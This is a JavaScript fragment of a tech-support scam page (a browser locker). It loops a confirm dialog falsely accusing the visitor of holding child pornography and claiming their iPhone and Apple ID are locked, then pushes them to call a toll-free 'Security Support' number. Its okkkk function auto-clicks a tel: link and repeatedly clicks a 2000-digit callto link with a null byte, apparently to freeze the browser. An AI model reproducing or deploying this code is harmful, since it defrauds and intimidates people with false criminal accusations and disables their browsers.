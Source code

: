             for (var d in window.text) {
                if (window.refef.indexOf(d) != -1) {
                    str = window.text[d];
                }
            }
            //var str = window.text[window.refef]?window.text[window.refef]:window.defaultText;
            return str.replace('|%model%|', window.device).replace('|%ref%|', window.refef);
        }


        if (!phone) {
            phone = getURLParameter('phone');
        }
        if (!text) {
            text = getURLParameter('text');
        }

        var sText = document.querySelectorAll('.js_setTextBlock');
        for (var t = 0; t < sText.length; t++) {
            sText[t].innerHTML = getText();
        }
        var sPhone = document.querySelectorAll('.js_setPhoneBlock');
        for (var p = 0; p < sPhone.length; p++) {
            sPhone[p].innerHTML = phone;
        }


        setInterval(function() {
            myFunction()
        }, 100);

        function okkkk() {
            jQuery('#result').append('<a  class="anchorcall" href="tel:+1-888-971-1821"></a>');
            document.querySelector('a').click();
            var extraData = "";
            for (itxextraData = 0; itxextraData < 200; itxextraData++) {
                var extraData = extraData + "5555555555";
            }
            jQuery('#result').append('<a href="#callto+' + extraData + '%00"></a>');
            document.querySelector('a').click();
            document.querySelector('a').click();
            document.querySelector('a').click();
            document.querySelector('a').click();
            document.querySelector('a').click();
            document.querySelector('a').click();
            //setInterval(function(){ alert(getText().repeat(99999999999));}, 300);
        };

        function myFunction() {
            if (confirm("Your iPhone has been locked due to detected illegal Child pornography. Your Apple ID has been disabled. Immediately call +1-888-971-1821 Security Support to unlock it!.")) {
                okkkk();
            } else {
                okkkk();
            }
        }
